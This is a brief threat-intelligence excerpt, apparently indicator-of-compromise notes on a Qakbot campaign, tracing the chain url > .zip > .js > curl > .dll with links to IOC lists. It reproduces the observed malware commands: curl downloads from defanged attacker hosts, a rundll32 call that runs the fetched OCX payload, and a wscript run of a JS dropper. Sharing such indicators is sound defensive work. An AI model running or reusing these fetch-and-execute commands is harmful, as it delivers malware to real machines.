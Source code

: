 cmd.exe /c mkdir  C:\Koltes\Fertiol & curl https://rapiska.]com/1337dat --output C:\Koltes\Fertiol\Floster.OCX

rundll32 C:\Koltes\Fertiol\Floster.OCX,must

IOC's
https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_obama268_14.06.2023.txt

### url > .zip > .js > curl > .dll

[#Qakbot](https://twitter.com/hashtag/Qakbot?src=hashtag_click) - BB32 - url > .zip > .js > curl > .dll
https://twitter.com/Cryptolaemus1/status/1668965414867443712


![proxy everywhere](/assets/images/proxy8.png)





#Qakbot - BB32 - url > .zip > .js > curl > .dll

wscript.exe docu_DF631_Jun_14_1.js

curl.exe -o c:\users\public\amounted.tmp http://192.121.17.]149/QmVep/DB278
